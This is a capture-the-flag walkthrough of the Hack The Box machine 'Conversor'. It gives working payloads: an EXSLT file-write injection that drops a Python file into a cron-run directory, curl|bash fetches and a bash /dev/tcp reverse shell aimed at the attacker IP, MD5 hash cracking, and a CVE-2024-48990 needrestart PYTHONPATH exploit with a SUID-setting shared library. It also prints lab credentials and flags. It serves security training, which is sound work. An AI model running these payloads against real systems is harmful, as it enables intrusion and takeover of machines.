# Conversor — Hack The Box Writeup

**Machine Information:**
- **Author:** Muhil M  
- **Name:** Conversor
- **Difficulty:** Easy
- **Operating System:** Linux (Ubuntu 22.04.5 LTS)
- **Key Vulnerabilities:** XSLT Injection (EXSLT File Write), Cron Job Abuse, needrestart CVE-2024-48990

---

## Prerequisites

Before starting:
- HTB VPN connected
- Kali Linux or similar pentesting OS
- Basic Linux command knowledge

**Required Tools** (pre-installed on Kali):
- `nmap` - Port scanning
- `wget` - File download
- `sqlite3` - Database query
- `ssh` / `sshpass` - SSH access
- `gcc` - Compile exploit (on target)

---

## Step-by-Step Exploitation

### Phase 1: Reconnaissance 

### Step 1: Initial Nmap Scan

Nmap is our port scanner - it tells us what services are running on the target.

```bash
mkdir nmap
nmap -sC -sV -oA nmap/initial 10.10.11.92
```

**Command Breakdown:**
- `nmap` - The network scanning tool
- `-sC` - Run default scripts (safe enumeration scripts)
- `-sV` - Detect service versions
- `-oA nmap/initial` - Save output in all formats (nmap, gnmap, xml)
- `10.10.11.92` - Target IP address

**Results:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: conversor.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



**What we learned:**
- Port 22: SSH is open (we'll need credentials later)
- Port 80: Web server redirecting to `conversor.htb`
- This is Ubuntu Linux

#### Step 2: Add Hostname to /etc/hosts

The web server uses virtual hosting, so we need to add the hostname:

```bash
echo "10.10.11.92    conversor.htb" | sudo tee -a /etc/hosts
```

**Verify it works:**
```bash
ping -c 1 conversor.htb
```



You should see a response from 10.10.11.92.

---

### Phase 2: Web Application Analysis

### Step 3: Visit the Website

Open a browser and navigate to `http://conversor.htb`

**What you'll see:**
- A login page
- Links to register a new account
- The site appears to be a file conversion service

### Step 4: Register an Account

We need an account to access the application. Use the register page:

**Via Browser:**
1. Click "Register"
2. Username: `hacker123`
3. Password: `password123`
4. Submit



**Via Command Line (Alternative):**
```bash
curl -s -c cookies.txt http://conversor.htb/register \
  -d "username=hacker123&password=password123" -L
```

### Step 5: Login and Explore

After logging in, you'll see:
- A file upload form
- It accepts XML and XSLT files
- Purpose: Convert XML files using XSLT transformations

**What is XSLT?**
XSLT (Extensible Stylesheet Language Transformations) is a language for transforming XML documents. Think of it like a template that reformats XML data into different formats (HTML, text, etc.).


### Step 6: Download Source Code

This is the goldmine! Navigate to `/about` page and click "Download Source Code"


```bash
wget http://conversor.htb/static/source_code.tar.gz
tar xvf source_code.tar.gz
ls -la
```



**What we got:**
```
app.py          - Main Flask application
install.md      - Installation instructions (IMPORTANT!)
instance/       - Contains users.db database
scripts/        - Directory for Python scripts
templates/      - HTML templates
static/         - Static files (images, CSS)
```


### Step 7: Analyze Critical Files

**Read install.md:**
```bash
cat install.md
```

**CRITICAL FINDING:**
```
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```



**What this means:**
- This is a cron job (scheduled task)
- Runs EVERY MINUTE (the `* * * * *`)
- As user `www-data` (web server user)
- Executes EVERY Python file (*.py) in `/var/www/conversor.htb/scripts/`
- If we can write a file there, it will run as www-data!

**Read app.py (the convert function):**
```bash
cat app.py | grep -A 30 "def convert"
```

**Key Code:**
```python
from lxml import etree
xml_path = os.path.join(UPLOAD_FOLDER, xml_file.filename)
xslt_path = os.path.join(UPLOAD_FOLDER, xslt_file.filename)
xml_file.save(xml_path)
xslt_file.save(xslt_path)

xslt_tree = etree.parse(xslt_path)
transform = etree.XSLT(xslt_tree)
result_tree = transform(xml_tree)
```



**Vulnerability Identified:**
The application processes XSLT files with `lxml` library without restrictions. XSLT has powerful extensions (EXSLT) that can read and **WRITE FILES** on the server!

---

### Step 8: Exploitation - Initial Foothold

### Understanding the Attack

**Attack Chain:**
1. Upload malicious XSLT file
2. XSLT writes a Python reverse shell to `/var/www/conversor.htb/scripts/shell.py`
3. Cron job executes it every minute
4. We get a shell as www-data

### Step 9: Get Your VPN IP Address

We need to know where to send the reverse shell:

```bash
ip a | grep "tun0" -A 5 | grep "inet " | awk '{print $2}' | cut -d/ -f1
```

**My IP:** 10.10.14.199 (yours will be different!)

### Step 10: Create Reverse Shell Script

This is what will run on the target to connect back to us:

```bash
cat > shell.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.199/9001 0>&1
EOF
chmod +x shell.sh
```

**Replace 10.10.14.199 with YOUR IP!**

**What this script does:**
- `bash -i` - Interactive bash shell
- `>&` - Redirects both stdout and stderr
- `/dev/tcp/IP/PORT` - Special bash feature to create TCP connection
- `0>&1` - Redirects stdin to the connection

### Step 11: Create Malicious XSLT File

This exploits EXSLT to write files:

```bash
cat > exploit.xslt << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    version="1.0"
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exsl="http://exslt.org/common"
    extension-element-prefixes="exsl">

    <xsl:template match="/">
        <exsl:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl http://10.10.14.199:8000/shell.sh|bash")
        </exsl:document>
    </xsl:template>

</xsl:stylesheet>
EOF
```

**Replace 10.10.14.199 with YOUR IP!**

**How this works:**
- `xmlns:exsl="http://exslt.org/common"` - Imports EXSLT extension
- `<exsl:document href="...">` - Writes content to specified file path
- `method="text"` - Write as plain text (not XML)
- Content: Python code that downloads and executes our shell.sh

### Step 12: Create Dummy XML File

We need a valid XML file to upload. Let's use nmap output:

```bash
nmap -sC -oX nmap.xml 10.10.11.92
```

This creates `nmap.xml` - a valid XML file we can use.



### Step 13: Start HTTP Server

The target will download shell.sh from us:

```bash
python3 -m http.server 8000
```

**Leave this running in the background!**

**What this does:**
- Starts a web server on port 8000
- Serves files from current directory
- Target can download `shell.sh` from us

### Step 14: Start Netcat Listener

This catches the reverse shell:

**Open a NEW terminal** and run:
```bash
nc -lvnp 9001
```

**Command Breakdown:**
- `nc` - Netcat (Swiss army knife of networking)
- `-l` - Listen mode
- `-v` - Verbose (show connections)
- `-n` - No DNS resolution
- `-p 9001` - Port to listen on

**Leave this running!**

### Step 15: Upload Exploit Files

**Method 1: Via Browser**
1. Go to `http://conversor.htb` (login if needed)
2. XML File: Upload `nmap.xml`
3. XSLT File: Upload `exploit.xslt`
4. Click "Convert"


**Method 2: Via Command Line**
```bash
curl -X POST http://conversor.htb/convert \
  -F "xml_file=@nmap.xml" \
  -F "xslt_file=@exploit.xslt" \
  -b cookies.txt
```

### Step 16: Wait for Cron Job

The cron runs every minute. Wait up to 60 seconds.

**Watch your terminals:**
1. HTTP server should show: `GET /shell.sh`
   
2. Netcat listener should show: `connect to [YOUR_IP] from [10.10.11.92]`
   

**You got a shell!** But it's unstable. Let's fix it.

### Step 17: Stabilize the Shell (if you get one)

**Note:** In our case, the shell was unstable. We'll use SSH instead (next section).

If you do get a shell, stabilize it:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

---

## User Privilege Escalation

### Understanding the Goal

We need credentials for the user `fismathack` to SSH into the box.

### Step 18: Extract Database Credentials

From the source code, we know there's a `users.db` SQLite database. The password hash for `fismathack` is in there.

**From the source code we already downloaded:**
```bash
sqlite3 instance/users.db
```

**Inside SQLite:**
```sql
.tables
SELECT * FROM users;
```

**Output:**
```
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
```



**What we found:**
- Username: `fismathack`
- Password Hash: `5b5c3ac3a1c897c94caad48e6c71fdec`

### Step 19: Crack the Hash

The hash is 32 characters = MD5 hash (old, weak algorithm)

**Method 1: Online (Fast)**
1. Visit https://crackstation.net/
2. Paste: `5b5c3ac3a1c897c94caad48e6c71fdec`
3. Result: `Keepmesafeandwarm`


**Method 2: John the Ripper (Offline)**
```bash
echo "5b5c3ac3a1c897c94caad48e6c71fdec" > hash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Method 3: Hashcat (Offline, GPU-accelerated)**
```bash
hashcat -m 0 -a 0 5b5c3ac3a1c897c94caad48e6c71fdec /usr/share/wordlists/rockyou.txt
```

**Credentials Found:**
- Username: `fismathack`
- Password: `Keepmesafeandwarm`

### Step 20: SSH as User

```bash
ssh fismathack@10.10.11.92
# Enter password: Keepmesafeandwarm
```

**Or use sshpass (non-interactive):**
```bash
sshpass -p 'Keepmesafeandwarm' ssh -o StrictHostKeyChecking=no fismathack@10.10.11.92
```

### Step 21: Get User Flag

```bash
cat /home/fismathack/user.txt
```



**User Flag:** `7890df1e7784230ac469a8becfb7f864`

**Quick command to get it:**
```bash
sshpass -p 'Keepmesafeandwarm' ssh -o StrictHostKeyChecking=no fismathack@10.10.11.92 'cat user.txt'
```

---

## Root Privilege Escalation

### Step 22: Check Sudo Permissions

Always check what we can run as root:

```bash
sudo -l
```

**Output:**
```
User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```



**What this means:**
- We can run `/usr/sbin/needrestart` as root
- Without a password (`NOPASSWD`)
- This is our path to root!

### Understanding needrestart

**What is needrestart?**
- A Debian/Ubuntu utility
- Checks which services need restarting after library updates
- Scans running processes
- **Vulnerable version** has a Python PATH hijacking vulnerability

### Understanding CVE-2024-48990

**The Vulnerability:**
1. `needrestart` runs as root (via sudo)
2. When it finds a Python process, it imports Python modules to inspect it
3. It **inherits the PYTHONPATH** environment variable from the process
4. If we set a malicious PYTHONPATH, we can make root import our code
5. Our code runs as root!

**Attack Steps:**
1. Create fake Python module in `/tmp/malicious/importlib/`
2. Start a Python process with `PYTHONPATH=/tmp/malicious`
3. Run `sudo needrestart`
4. needrestart imports our malicious module as root
5. Our code executes as root!

### Step 23: Create Malicious Shared Library

This code will make /bin/bash SUID (run as root when executed):

```bash
cat > exploit.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void a() __attribute__((constructor));

void a() {
    if(geteuid() == 0) {
        setuid(0);
        setgid(0);
        system("chmod +s /bin/bash");
    }
}
EOF
```

**Code Explanation:**
- `__attribute__((constructor))` - This function runs automatically when the library loads
- `geteuid() == 0` - Check if we're root (UID 0)
- `chmod +s /bin/bash` - Set SUID bit on bash (makes it run as owner = root)

**Compile it:**
```bash
gcc -shared -fPIC -o __init__.so exploit.c
```

**Flags explanation:**
- `-shared` - Create a shared library (.so file)
- `-fPIC` - Position Independent Code (required for shared libraries)
- `-o __init__.so` - Output filename (must be __init__.so to work as Python module)



### Step 24: Create Exploit Runner Script

This sets up the entire exploit:

```bash
cat > exploit_needrestart.sh << 'EOF'
#!/bin/bash
# Setup malicious PYTHONPATH
cd /tmp
mkdir -p malicious/importlib
cd malicious

# Download our malicious library
curl -s http://10.10.14.199:8000/__init__.so -o importlib/__init__.so

# Create bait Python process
cat > bait.py << 'INNEREOF'
import time
import os
while True:
    time.sleep(1)
    # Check if exploit worked
    if os.path.exists('/bin/bash') and os.stat('/bin/bash').st_mode & 0o4000:
        print("[+] SUID bit set on /bin/bash!")
        break
INNEREOF

# Run with hijacked PYTHONPATH in background
PYTHONPATH=/tmp/malicious nohup python3 bait.py > /tmp/bait.log 2>&1 &
echo $! > /tmp/bait_pid
echo "[*] Bait process started with PID: $(cat /tmp/bait_pid)"
echo "[*] Now run: sudo /usr/sbin/needrestart"
EOF

chmod +x exploit_needrestart.sh
```

**Replace 10.10.14.199 with YOUR IP!**

### Step 25: Upload to Target

```bash
sshpass -p 'Keepmesafeandwarm' scp -o StrictHostKeyChecking=no exploit_needrestart.sh fismathack@10.10.11.92:/tmp/
```

### Step 26: Execute the Exploit

**Make sure your HTTP server is still running!**

```bash
sshpass -p 'Keepmesafeandwarm' ssh -o StrictHostKeyChecking=no fismathack@10.10.11.92 << 'ENDSSH'
bash /tmp/exploit_needrestart.sh
sleep 3
sudo /usr/sbin/needrestart -b
sleep 2
ls -la /bin/bash | grep -E "rws|SUID"
if [ -u /bin/bash ]; then
    bash -p -c 'whoami; cat /root/root.txt'
else
    echo "Exploit failed, /bin/bash not SUID"
fi
ENDSSH
```



**What happens:**
1. Run our exploit script (sets up Python process with hijacked PYTHONPATH)
2. Wait 3 seconds for it to start
3. Run `sudo needrestart -b` (triggers the vulnerability)
4. needrestart imports our malicious module as root
5. Our code makes /bin/bash SUID
6. We run `bash -p` (preserves SUID) as root
7. Get root flag!

**Root Flag:** `b0ffd5dc4e88fe9f3134702f88255d3a`

### Alternative: Interactive Method

**SSH into the box:**
```bash
ssh fismathack@10.10.11.92
# Password: Keepmesafeandwarm
```

**On target machine:**
```bash
cd /tmp
mkdir -p malicious/importlib
cd malicious

# Download the malicious library
curl http://10.10.14.199:8000/__init__.so -o importlib/__init__.so

# Create and run bait script
cat > bait.py << 'EOF'
import time
while True:
    time.sleep(1)
EOF

PYTHONPATH=/tmp/malicious python3 bait.py &
```

**In another SSH session or same session:**
```bash
sudo /usr/sbin/needrestart -b
```

**Check if it worked:**
```bash
ls -la /bin/bash
```

**If you see `-rwsr-sr-x` (notice the 's'), exploit worked!**

**Get root shell:**
```bash
bash -p
whoami  # Should say 'root'
cat /root/root.txt
```

---

## Key Takeaways

### What We Learned

1. **XSLT Can Be Dangerous**
   - EXSLT extensions allow file operations
   - Always sanitize or disable dangerous features
